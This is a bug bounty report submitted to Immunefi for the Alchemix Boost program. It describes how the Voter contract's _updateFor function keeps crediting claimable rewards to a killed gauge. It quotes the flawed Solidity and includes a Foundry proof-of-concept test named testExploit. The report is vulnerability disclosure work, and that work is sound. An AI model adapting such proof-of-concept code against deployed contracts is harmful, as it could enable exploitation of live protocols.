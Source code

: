 
# the killed gauge collect claim amount

Submitted on Sat May 18 2024 15:46:26 GMT-0400 (Atlantic Standard Time) by @zeroK for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31418

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value

## Description
## Brief/Intro
the killed gauge can accrue claim amount even after it get killed, this is possible because the _updateFor function won't prevent adding shares to killed gauge.

this report may get closed but we submit it as INSIGHTS for alchemix protocol

## Vulnerability Details
the _updateFor did not prevent updating claimable amount for the killed gauge:

```solidity 
    function _updateFor(address _gauge) internal {
        require(isGauge[_gauge], "invalid gauge");

        address _pool = poolForGauge[_gauge];
        uint256 _supplied = weights[_pool]; 
        if (_supplied > 0) {
            uint256 _supplyIndex = supplyIndex[_gauge];
            uint256 _index = index; // get global index0 for accumulated distro
            supplyIndex[_gauge] = _index; // update _gauge current position to global position
            uint256 _delta = _index - _supplyIndex; // see if there is any difference that need to be accrued
            if (_delta > 0) {
                uint256 _share = (uint256(_supplied) * _delta) / 1e18; // add accrued difference for each supplied token
                claimable[_gauge] += _share;
            }
        } else {
            supplyIndex[_gauge] = index;
        }
    }


```

while the function is taken from the velo voter contract, the velo protocol set the claimable to zero when it kill it, but if this is not what the alchemix protocol want to do then the updatefor should not update the claimable amount for the killed gauge, in case if the gauge revived then the claimable amount can be huge amount till then.

## Impact Details
`updateFor` updates the claimable to killed gauge.

        
## Proof of concept
## Proof of Concept

```
    // SPDX-License-Identifier: GPL-3

// run forge test --match-test testExploit --fork-url <URL> -vv  -- > in src/test
pragma solidity ^0.8.15;

import "./BaseTest.sol";

import "lib/forge-std/src/console2.sol";
import "lib/forge-std/src/Test.sol";
import "./utils/DSTestPlus.sol";

import "src/interfaces/IRewardsDistributor.sol";

contract testing is Test, BaseTest {
    address public alice;
    uint256 internal constant THREE_WEEKS = 3 weeks;

    function setUp() public {
        setupContracts(block.timestamp);

        alice = vm.addr(1);
        deal(bpt, address(alice), TOKEN_100M);
    }

    function testExploit() public {
        //FIRST STEP get gauge address
        address emergencyCouncil = voter.emergencyCouncil();
        address gaugeAddress = voter.gauges(alEthPoolAddress);
        address[] memory guageS = new address[](1);
        guageS[0] = gaugeAddress;

        bool isGaugeAlive = voter.isAlive(gaugeAddress);
        assertEq(isGaugeAlive, true, "gauge should be alive");

        //SECOND STEP vote to the pool that point to the gauge

        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.startPrank(admin);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        voter.vote(tokenId, pools, weights, 0); // we vote to update weights of the gauge/pool

        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        hevm.roll(block.number + 1);

        voter.distribute();

        // THIRD STEP kill the gauge

        hevm.startPrank(emergencyCouncil);
        voter.killGauge(gaugeAddress);

        hevm.stopPrank();

        // after killing the update for won't revert for killed gauge

        voter.updateFor(guageS);
    }
}

```